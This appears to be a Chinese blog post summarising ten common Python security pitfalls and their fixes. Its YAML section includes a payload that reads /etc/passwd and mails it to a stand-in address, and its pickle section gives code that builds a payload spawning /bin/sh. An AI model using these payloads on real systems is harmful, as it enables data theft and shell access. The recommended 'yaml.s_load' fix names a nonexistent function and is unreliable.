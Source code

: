 title: python 的十个安全问题
date: 2019-04-26 10:06:44
tags:
- Python
- 安全
categories:
- 随手摘录	
photos:	 
- "https://github.com/aldslvda/blog-images/blob/master/python-security?raw=true"
toc: true
comment: true
---

原文:
https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03


### 1. 输入注入
- SQL 注入:
    容易发生在Python中写raw sql进行查询的场景。 
    解决方式:尽量用ORM，如果要写raw sql, 尽量熟悉[SQL注入cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- 命令注入:
    容易发生在os.popen(), subprocess.Popen()等场合
    使用shelex模块保证引号的转义是正确的

### 2.解析XML
大多发生在解析不被信任的xml(non-trusted xml)
- billion lols
- 外部实体拓展
- 不安全的非标准库

解决方式: 使用较为安全的解析库进行解析，入defusedxml

### 3. 断言语句
不要用断言对用户的权限进行判断

```python
def foo(request, user):
   assert user.is_admin, “user does not have access”
   # secure code...
```

生产环境中会直接跳过assert直接进行用户可能没有权限的操作

解决方式: 断言只用在与其他开发者交互的场景，比如api调用检查和单元测试

### 4.timing attack
攻击者通过对比较指定加密值的时长判断比较器的行为和使用算法。
由于这种攻击很依赖时间的准确度，很少有远程的攻击，更多的是对一些命令行工具进行破解。
[时间攻击的介绍](http://jyx.github.io/blog/2014/02/02/timing-attack-proof-of-concept/)
[一个例子SSH-based timing attack](https://github.com/c0r3dump3d/osueta)

解决方式:
使用Python 3.5 中引入的secrets.compare_digest 进行敏感字符串的比较

### site-packages 污染
Python的包引用非常的灵活，这使得猴子补丁和标准库函数的重写非常容易，但也造成了最大的安全漏洞之一。
出现场景: 攻击者在Pypi中使用与流行库名称相似的库名

解决方式:
眼神要好，不要手抖
使用virtualenv 保持全局site-packages的清洁
下载包时核对签名

### 临时文件攻击
在你使用mktemp()创建临时文件后和处理临时文件之前修改临时文件。

解决方案:
使用tempfile模块和mkstemp()创建临时文件


### 使用yaml.load
在yaml的load过程中会出现安全问题
例如在yaml中加入这一句
```python
!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
```


解决方法:
yaml.s_load

### 解析pickel

例:
```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
```

以上是将打开shell的程序打包到pickel的代码

解决方案:
千万不要从未知源解析pickel

### 使用系统Python, 不打补丁
使用系统提供的Python版本可能有很多未修复的漏洞

解决方式:
使用新版Python，为系统Python 打补丁

### 不给Python的依赖打补丁
同上


